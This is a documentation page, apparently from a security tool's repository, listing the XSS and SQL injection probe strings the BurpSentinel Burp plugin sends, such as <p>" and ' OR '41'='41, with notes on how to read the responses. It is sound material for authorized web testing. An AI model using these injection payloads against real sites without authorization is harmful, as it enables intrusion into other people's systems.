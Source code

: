 = BurpSentinel Payloads

Based on my presentation on BSidesVienna 2014: http://www.slideshare.net/nibod/bsides-viennasentinel-v04


== XSS

If the web app returns <p>", it is vulnerable to XSS. 

For tag based injection:
[source]
----
%3Cp%3E%22
<p>"
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

For tag value based injection:

[source]
----
%22%3D 
"=
----

Both of the above will be sent like written above. The 2nd, unencoded version will be not exploitable in real life if the parameter is in GET (HTTP URL).

== SQLu

The SQL tests are positive-based. The BREAK request should return another response than the original request. If one of the follow up request is identical to the original request, the webapp is most likely vulnerable to SQLi. 

The old SQL tests:

[source]
----
'BREAK"
        
OR 41=41
' OR '41'='41
" OR "41"="41

/**/

) OR (41=41
') OR ('41'='41
") OR ("41"="41"
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.

== SQLs

The new SQL tests:

[source]
----
'BREAK"

ORIG+1-1
ORIG'+0+'0

ORIG[0]'||'ORIG[1-END]
ORIG[0]'+'ORIG[1-END]
ORIG[0]' 'ORIG[1-END]
/**/ORIG
----

If the attack vector is in POST (HTTP body), try each of the above with and without URL encoding. For GET (HTTP URL), just use URL encoding.